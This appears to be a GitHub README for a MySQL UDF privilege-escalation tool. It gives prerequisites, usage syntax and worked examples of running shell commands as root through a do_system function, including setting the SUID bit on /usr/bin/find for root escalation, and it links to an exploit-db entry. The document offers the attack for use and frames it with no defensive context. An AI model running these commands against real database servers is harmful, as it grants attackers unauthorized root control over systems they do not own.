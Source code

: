 # MySQL-UDF-PrivEsc
Using MySQL UDF to excute system commands
<br/>Prerequisites:
- mysqld must run as root (ps aux | grep mysqld)
- you must know the credentials of a MySQL user that has the permission to create stored function on the DBMS

# How does it works?
The script use UDF shared library on MySQL to execute commands, if mysqld run as root, of course the passed (<b>-c</b>)ommand will be executed as root. On a 64bit *nix box you can pass the compiled .so included in this repo.<br/>
How to use the script: `mysql_udf_exec_sys.sh -u mysql-user -p mysql-user-password -s shared-library-path -c command-to-be-executed`<br>
e.g. `$ ./mysql_udf_exec_sys.sh -s lib_sys_udf.so -u root -p Secrete -c 'whoami > /tmp/whoM; chmod go+r /tmp/whoM;'
  Once the script has been correctly executed you can direct access the MySQL console and use the function <b>do_system</b> directly:<br>
<pre>mysql> use mysql;
mysql> select do_system('chmod u+s /usr/bin/find');
+--------------------------------------+
| do_system('chmod u+s /usr/bin/find') |
+--------------------------------------+
|                                    0 |
+--------------------------------------+
1 row in set (0.00 sec)
</pre>
  
<br><br><b>Please have a look to the following resources to get specific information about the exploit: </b>
  - https://www.exploit-db.com/exploits/1518
  - MySQL UDF: https://mariadb.com/kb/en/library/create-function-udf 
  - Shared library soname: https://en.wikipedia.org/wiki/Soname
